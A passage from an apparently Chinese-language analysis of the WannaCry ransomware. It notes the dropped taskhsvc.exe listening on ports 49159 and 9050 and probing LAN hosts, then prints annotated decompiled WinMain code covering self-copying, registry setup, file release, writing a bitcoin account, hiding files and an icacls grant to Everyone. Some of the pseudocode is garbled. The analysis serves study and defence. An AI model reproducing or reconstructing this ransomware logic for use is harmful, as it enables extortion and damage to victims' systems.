 ### 4.2.5 网络监控

{% asset_img image16.png 16 %}

图十四：网络连接情况

通过分析病毒释放的文件 taskhsvc.exe
的联网情况，我们看到病毒一直在对49159和9050端口进行监听，并利用端口尝试对局域网内的一些IP进行渗透。

# 5 wncry.exe 病毒主程序分析


## 5.1 主体逻辑

```c
int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)  {  

Filename = byte_40F910;  

memset(&v12, 0, 0x204u);                      // 初始化内存  

v13 = 0;  

v14 = 0;  

GetModuleFileNameA(0, &Filename, 0x208u);     // 获取当前进程的完整路径  

GetRandom((int)RandResult);                   // 获取一串随机的字母+数字  

if ( *(_DWORD *)_p___argc(Str) != 2           // 如果命令行参数个数不等于2  

|| (v5 = _p___argv(), strcmp(*(const char )(*(_DWORD *)v5 + 4), aI))  

|| !sub_401B5F(0)  

|| (CopyFileA(&Filename, FileName, 0), GetFileAttributesA(FileName) == -1)  

|| !sub_401F5D() )  

{  

if ( strrchr(&Filename, '') )             // 查找在当前文件路径中的位置  

*strrchr(&Filename, '') = 0;  

SetCurrentDirectoryA(&Filename);            // 切换当前的工作目录  

SetReg(1);                                  // 设置当前进程目录到注册表项 

ReleaseFiles(0, ::Str);                     // 释放文件和语言包到工作路径下  

WriteCwnry();                               // 重写c.wnry文件 添加比特币账户  

ExeCmdCommand(CommandLine, 0, 0);           // 隐藏当前路径下的所有文件 

ExeCmdCommand(aIcaclsGrantEve, 0, 0);       // 添加Everyone用户 授予all访问权限  

if ( GetApis() )                            // 获取一些必要的API函数地址  

{  

CDatabase::CDatabase(this);               // 构造函数 初始化临界区  
```